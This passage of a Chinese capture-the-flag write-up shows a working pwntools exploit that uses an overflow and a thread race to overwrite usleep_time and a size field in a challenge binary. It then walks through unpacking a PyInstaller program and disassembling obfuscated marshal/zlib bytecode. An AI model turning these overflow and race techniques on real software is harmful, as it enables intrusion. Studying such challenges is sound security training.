 这两处分别会导致 usleep_time 和 size 被溢出修改。

那么做法就显而易见了：
- 先输入 size，比如给个 0 让它通过判断。
- 输入长为 0x104 的数据 p, 其中最后 4B 是 usleep_time，控制在几秒比较适当。
- 第一个线程进入 usleep 的几秒，让第二个线程读入 49B 到 buffer，其中最后 1B 溢出到 size 的低位。也就是需要控制 p[48] 大概在几十就行了。

```python
print(r.recv())
r.sendline(b"4")
uslp = 5000000
psize = 48
payload = (b"0" * 48 
		+ psize.to_bytes(length=1, byteorder='little') 
		+ b"0" * (0x100 - 49) + uslp.to_bytes(length=4, byteorder='little'))
print(r.recv())
r.sendline(payload)
print(r.recv())
r.sendline(b"49")

r.interactive()
```

## 从零开始学Python | binary-pymaster
### 源码中遗留的隐藏信息

遇事不决 IDA。。。诶，这不对吧。

发现其中有 PYI 等字样，一查这种是 PyInstaller 打包的程序。

这种程序是可以解包的，这边使用 pyinstextractor 解包得到一个文件夹。

最先关注到了 pymaster.pyc，随便使用一个[网站](https://www.pylingual.io/)反编译一下 pyc。

得到了代码，看起来还需要解密：

```python
import marshal, random, base64
if random.randint(0, 65535) == 54830:
    exec(marshal.loads(base64.b64decode(b'YwAAAAAAAA ...  w==')))
```

marshal.loads 会加载一串 Python 字节码。使用 dis.dis() 可以反汇编成 Python 汇编程序。

```python
dis.dis(marshal.loads(base64.b64decode(b'YwAAAAAAAA ...  w==')))
```

```python
  2           0 LOAD_CONST               0 (b'eJzFV1 ... OKFU=')
              2 STORE_NAME               0 (code)

  3           4 LOAD_NAME                1 (eval)
              6 LOAD_CONST               1 ('exec')
              8 CALL_FUNCTION            1

  4          10 LOAD_NAME                2 (getattr)
             12 LOAD_NAME                3 (__import__)
             14 LOAD_CONST               2 ('zlib')
             16 CALL_FUNCTION            1
             18 LOAD_CONST               3 ('decompress')
             20 CALL_FUNCTION            2

  3          22 LOAD_NAME                2 (getattr)
             24 LOAD_NAME                3 (__import__)
             26 LOAD_CONST               4 ('base64')
             28 CALL_FUNCTION            1
             30 LOAD_CONST               5 ('b64decode')
             32 CALL_FUNCTION            2
```